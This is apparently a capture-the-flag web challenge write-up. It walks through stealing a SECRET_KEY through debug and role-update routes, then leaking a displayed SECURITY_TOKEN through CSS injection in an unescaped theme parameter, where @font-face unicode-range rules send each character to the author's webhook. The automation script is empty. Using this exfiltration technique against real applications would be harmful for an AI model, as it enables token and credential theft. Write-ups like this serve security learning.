 ```python
    }
    return res.json({
        success: true,
        message: 'Report sent successfully'
    });
});
```
Here is poc :  
1. Turn on debug with route `/api/debug?debug_mode=1`
![image](https://hackmd.io/_uploads/r1ogexELJg.png)
2. Update role user with route `/api/update?username=123`
![image](https://hackmd.io/_uploads/BJKoygVUJg.png)
3. And stole it with with `/api/dev`(you will need to login again)
![image](https://hackmd.io/_uploads/Hkvvxl4L1l.png)
- Now we stole the the SECRET_KEY !!!

# How to steal the SECURITY_TOKEN  : 
- Maybe you will think about the report function and lead the page to a XSS page and get the cookies. But it is not the case in this challenge because the cookies are protected. So how we leak the `SECURITY_TOKEN`.
- Read the source code you will see some malicous .
```javascript
app.use((req, res, next) => {
    // Should be safe right?
    if (!req.theme) {
        const theme = req.query.theme;
       if (theme && !theme.includes("<") && !theme.includes(">")) {
            req.theme = theme;
        }else{
            req.theme = 'white';
        }
    }
    next();
})
```
- It creates a middleware to pass our query `theme` and put it into a style tag  
```html=
    <style nonce="{{ nonce }}">
        body {
            background: {{theme | safe}};
        }
    </style>
    <h1 class="title
```
- The `safe` makes it injectable. Let me show you an example.
- ![image](https://hackmd.io/_uploads/ry1TbgNLJg.png)

So we have a CSS injection ? And you can pay attention that the `SECURITY_TOKEN` is actually showed in the user interface? Well when learning XSS i found this good [blog](https://aszx87410.github.io/beyond-xss/en/ch2/trust-types/) and I can even leak the `SECURITY_TOKEN` now !!! 
# Idea 
- The leaks is working because of abusing the `@font` with loading an URL when matching a range of UNICODE which can just be a letter too ~~ !!
![image](https://hackmd.io/_uploads/BJtKGxEI1l.png)
- Idea is create many fonts from `a-z0-9` which one will fetch to my Webhook with its char and position .
![image](https://hackmd.io/_uploads/HkjNCNN81g.png)
- I have created a script to automate this.
```python
```